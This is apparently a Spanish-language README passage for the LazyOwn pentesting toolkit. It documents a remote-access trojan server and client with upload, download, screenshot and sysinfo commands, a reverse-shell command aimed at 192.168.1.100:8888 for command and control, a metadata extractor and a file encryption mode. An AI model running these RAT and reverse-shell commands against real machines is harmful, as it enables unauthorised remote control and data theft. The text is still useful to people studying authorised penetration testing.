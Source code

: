 ```sh
usage: lazyownserver.py [-h] [--host HOST] [--port PORT] --key KEY
lazyownserver.py: error: the following arguments are required: --key

usage: lazyownclient.py [-h] --host HOST --port PORT --key KEY
lazyownclient.py: error: the following arguments are required: --host, --port, --key

LazyOwn> run lazyownclient
[?] lhost and lport and rat_key must be set

LazyOwn> run lazyownserver
[?] rhost and lport and rat_key must be set

luego los comandos son:

upload /path/to/file
donwload /path/to/file
screenshot
sysinfo
fix_xauth #to fix xauth xD
lazyownreverse 192.168.1.100 8888 #Reverse shell to 192.168.1.100 on port 8888 ready to C&C
```

![image](https://github.com/grisuno/LazyOwn/assets/1097185/2bb7ec40-0d89-4ca6-87ff-2baa62781648)

## Uso modo Lazy Meta Extract0r

LazyMeta Extract0r es una herramienta diseñada para extraer metadata de varios tipos de archivos, incluidos PDF, DOCX, archivos OLE (como DOC y XLS), y varios formatos de imágenes (JPG, JPEG, TIFF). Esta herramienta recorrerá un directorio especificado, buscará archivos con extensiones compatibles, extraerá la metadata y la guardará en un archivo de salida.

[*] Iniciando: LazyMeta extract0r [;,;]

usage: lazyown_metaextract0r.py [-h] --path PATH
lazyown_metaextract0r.py: error: the following arguments are required: --path

```sh
python3 lazyown_metaextract0r.py --path /home/user
```

![image](https://github.com/grisuno/LazyOwn/assets/1097185/9ec77c01-4bc1-48ab-8c34-7457cff2f79f)

## Uso modo decrypt encrypt

un metodo de cifrado el cual nos permite tanto encryptar archivos como decencriptar los si se cuenta con la llave obviamente:

![Captura de pantalla 2024-06-08 231900](https://github.com/grisuno/LazyOwn/assets/1097185/15158dbd-6cd6-4e20-a237-6c89983d42ce)

```sh
encrypt path/to/file key # to encrypt
decrypt path/to/file.enc key #to decrypt
```
